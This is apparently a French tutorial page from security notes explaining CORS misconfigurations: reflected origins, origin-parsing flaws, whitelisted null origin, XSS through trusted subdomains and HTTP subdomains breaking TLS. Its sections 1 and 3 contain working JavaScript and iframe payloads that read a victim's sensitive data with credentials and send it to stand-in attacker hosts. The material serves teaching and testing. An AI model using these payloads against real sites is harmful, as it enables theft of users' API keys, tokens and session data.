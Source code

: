 # Cross-origin resource sharing (CORS)

Partage de ressources multi-origines ou partage de ressources d'origine croisée.

- [Same-origin policy (SOP)](./Same-origin%20policy.md)

- [CORS and the Access-Control-Allow-Origin response header](./CORS%20and%20the%20Access-Control-Allow-Origin%20response%20header.md)

- [Vérifications avant vol](./Vérifications%20avant%20vol.md)

# Vulnerabilities

Un serveur Web cible est vulnérable aux attaques CORS si :

```sh
# request
Origin: https://attacker-website.com
```
Pour déterminer si CORS est activé, recherchez les en-têtes commençant par `Access-Control-Allowed` dans les en-têtes de réponse.

```sh
# response
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: https://attacker-website.com
Access-Control-Allow-Credentials: true
```


Les vulnérabilités possibles:

## 1. Server-generated ACAO header from client-specified Origin header
Certaines applications doivent donner accès à un certain nombre d'autres domaines.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Ces en-têtes indiquent que l'accès est autorisé à partir du domaine demandeur ( `malicious-website.com`) et que les requêtes cross-origin peuvent inclure des cookies ( `Access-Control-Allow-Credentials: true`) et sera donc traité en session. 

> **Parce que l'application reflète des origines arbitraires dans l'en-tête `Access-Control-Allow-Origin` , cela signifie qu'absolument n'importe quel domaine peut accéder aux ressources du domaine vulnérable**

Si la réponse contient des informations sensibles telles qu'une clé API ou un jeton CSRF, vous pouvez les récupérer en plaçant le script suivant sur votre site Web : 

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	};
</script>
```

Now visite the attacker web site `https://malicious-website.com/`


## 2. Errors parsing Origin headers
Erreurs lors de l'analyse des en-têtes Origin

Des règles sont souvent implémentées en faisant correspondre les `préfixes` ou `suffixes` d'URL

Par exemple, supposons qu'une application accorde l'accès à tous les domaines se terminant par : `normal-website.com`

- Un attaquant pourrait pouvoir accéder en enregistrant le domaine : `hackersnormal-website.com`

Alternativement, supposons qu'une application accorde l'accès à tous les domaines commençant par `normal-website.com`

- Un attaquant pourrait être en mesure d'accéder à l'aide du domaine : `normal-website.com.evil-user.net`

## 3. Whitelisted null origin value

Les navigateurs peuvent envoyer la valeur `Origin: null` dans l'en-tête.

Certaines applications peuvent mettre sur liste blanche l'`Origin: null` pour accompagner le développement local de l’application.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant peut générer une requête cross-origin contenant la valeur null dans l’en-tête Origine. Cela satisfera la liste blanche, conduisant à un accès inter-domaines.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
	};
</script>">
</iframe>
```

```html
<iframe style="display: none;" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var xhr = new XMLHttpRequest();
    var target_url = 'https://vulnerable-website.com/sensitive-victim-data';
    xhr.onreadystatechange = () => {
        if(xhr.readyState == XMLHttpRequest.DONE){
            fetch('http://attacker-server:4444/log?key=' + xhr.responseText);
        }
    };
    xhr.open('GET', target_url, true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>"></iframe>
```

## 4. Exploiting XSS via CORS trust relationships
> Même CORS « correctement » configuré établit une relation de confiance entre deux origines.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Un attaquant qui trouve une vulnérabilité XSS sur `subdomain.vulnerable-website.com` pourrait l'utiliser pour récupérer la clé API, en utilisant une URL telle que:

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## 5. Breaking TLS with poorly configured CORS

Supposons qu'une application qui utilise rigoureusement HTTPS mette également sur liste blanche un sous-domaine approuvé qui utilise HTTP simple.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant capable d'intercepter le trafic d'un utilisateur victime et exploiter la configuration CORS pour compromettre l'interaction de la victime avec l'application avec les étapes suivantes :


1. L'utilisateur victime effectue une requête HTTP simple.

2. L'attaquant injecte une redirection vers :

```
http://trusted-subdomain.vulnerable-website.com
```

3. Le navigateur de la victime suit la redirection.

4. L'attaquant intercepte la requête HTTP simple et renvoie une réponse usurpée contenant une requête CORS à:

```
https://vulnerable-website.com
```

5. Le navigateur de la victime fait la requête CORS, en incluant l'origine :

```
http://trusted-subdomain.vulnerable-website.com
```

6. L'application autorise la demande car il s'agit d'une origine sur liste blanche . Les données sensibles demandées sont renvoyées dans la réponse.

7. La page usurpée de l'attaquant peut lire les données sensibles et les transmettre à n'importe quel domaine sous le contrôle de l'attaquant.

> Cette attaque est efficace car même si le site utilise des mesures de sécurité comme HTTPS, n'accepte pas de connexions HTTP, et protège bien les cookies, l'attaque peut quand même réussir. 

